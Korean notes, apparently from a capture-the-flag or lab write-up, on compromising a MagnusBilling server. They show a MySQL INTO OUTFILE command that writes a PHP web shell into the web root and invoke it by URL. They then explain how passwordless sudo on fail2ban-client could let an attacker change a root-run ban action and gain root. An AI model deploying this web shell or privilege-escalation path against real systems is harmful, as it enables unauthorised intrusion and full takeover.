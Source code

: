 SELECT user, host, plugin FROM mysql.user;

# UDF나 프로시저 확인

SHOW PROCEDURE STATUS WHERE Db = 'mbilling';

# INTO OUTFILE 으로 웹쉘 업로드 시도

SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/mbilling/shell.php";

# 웹 브라우저로 접속해서 명령 실행

http://target/mbilling/shell.php?cmd=id

상황 요약
Fail2ban가 cat /var/log/asterisk/messages 로그 파일을 감시해서 공격 패턴을 탐지함.

asterisk-iptables jail에서 패턴이 탐지되면 iptables-allports라는 액션이 실행됨.

이 액션은 공격 IP를 방화벽(iptables)에 추가해 차단(ban)하는 역할을 수행함.

asterisk 사용자가 sudo로 fail2ban-client를 비밀번호 없이 실행 가능.

root 권한 프로세스인 fail2ban 서버에 명령을 내려서 동작을 바꿀 가능성을 탐색 중임.

왜 이렇게 생각하는가?

1. Fail2ban 구조 이해
   Fail2ban은 jail, filter, action 세 가지 요소로 구성됨

jail: 어떤 로그파일을 감시하고, 어떤 필터를 적용할지 정함.

filter: 정규표현식으로 로그에서 특정 패턴(공격 시그니처 등)을 찾아냄.

action: 패턴이 감지됐을 때 수행할 명령어(주로 iptables 명령으로 IP 차단).

이때 action은 쉘 명령어 집합이며, root 권한으로 실행됨.

2. Sudo 권한과 Fail2ban 명령 조작 가능성
   asterisk 사용자가 sudo fail2ban-client를 비밀번호 없이 실행 가능함.

fail2ban-client는 Fail2ban 서버와 통신하는 인터페이스지만, 명령의 실행은 서버 프로세스(=root)가 담당함.

따라서 fail2ban-client로 fail2ban 설정을 변경하거나 특정 액션을 실행하도록 조작할 수 있다면 root 권한 명령 실행 가능.

3. 액션(action)을 악용하는 시도
   기본적으로는 공격 IP를 차단하는 iptables 명령어가 들어가 있음.

만약 이 액션(action) 스크립트나 명령어를 수정하거나 교체할 수 있다면, 임의의 명령 실행 가능.

즉, iptables-allports 대신에 root 권한으로 실행되는 임의 쉘 명령을 삽입하면 권한 상승 가능.

4. sudo fail2ban-client get asterisk-iptables actions 명령 의도
   이 명령은 현재 jail에서 사용하는 액션 이름을 출력함.

액션 이름을 알면 해당 액션이 어떤 쉘 스크립트나 명령어를 실행하는지 /etc/fail2ban/action.d/iptables-allports.conf 같은 파일에서 확인 가능.

액션의 내용(스크립트나 명령어)을 분석해서 악용 포인트(예: 쉘 명령어 인젝션, 임의 파일 덮어쓰기 등)가 있는지 탐색 가능.
